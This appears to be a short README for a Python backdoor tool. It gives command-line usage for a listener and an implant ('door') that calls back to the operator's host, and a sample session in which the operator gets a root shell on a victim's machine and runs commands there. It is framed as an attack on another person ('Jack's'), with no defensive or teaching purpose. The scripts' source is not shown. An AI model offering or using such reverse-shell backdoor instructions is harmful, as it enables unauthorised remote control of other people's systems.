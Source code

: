 > A simple Backdoor CONSOLE, Support both Python 2 & 3.

### Command Line Argument
```
$> ./server.py bind_address:bind_port
$> ./door.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example
$> ./door.py 127.0.0.1:4433 # default retry interval 16
$> ./door.py 127.0.0.1:4433:60
```

### Your side
```
root@server 07:47 /home # ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 door
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

### Jack's
```
root@boy 07:47 /home # ./door *.*.*.*:2345
```
End.
